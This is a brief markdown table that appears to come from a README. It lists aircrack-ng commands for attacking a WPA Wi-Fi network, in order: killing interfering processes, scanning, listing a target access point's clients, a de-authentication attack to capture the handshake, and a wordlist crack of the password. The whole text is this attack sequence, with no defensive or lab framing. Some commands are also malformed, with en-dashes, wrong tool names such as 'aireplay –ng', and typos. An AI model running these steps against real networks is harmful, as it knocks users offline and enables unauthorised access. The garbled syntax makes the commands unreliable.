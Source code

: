 | S.No |  Command             | Description                |
|------|----------------------------|----------------------------|
| 1.   | `airmon-ng check <your-wireless-network interface> `     | Checks for any running processes that could cause trouble in capturing 4-way handshake.           |
| 2.   | `airmon-ng check kill <your-wireless-network-interface>`  | Kills processes that cause trouble in capturing 4-way handshake.     |
| 3.   | `airodump –ng <your-wireless-network-interface>` | Starts listening to wireless networks around you |
| 4.   | `airodump –ng –c <channel-number-on-which-wireless-access-point-is-running>  --bssid <MAC address of WAP> <your-wireless-network-interface>`       | Returns list of MAC addresses that are connected to entered WAP.     |
| 5.   | `aireplay –ng -0 0 –a <MAC address> <your-wireless-network-interface>`     | Starts the de-authentication attack |
| 6.   | `wireshark <.cap file>`     | Opens .cap file in wireshark to explore packets that flowed during de-authentication attack. |
| 7.   | `aircrack-ng -w <path till word-list containing passwords> <.cap file>`     | Starts brue-force attack on WAP to capture encrypted password. |
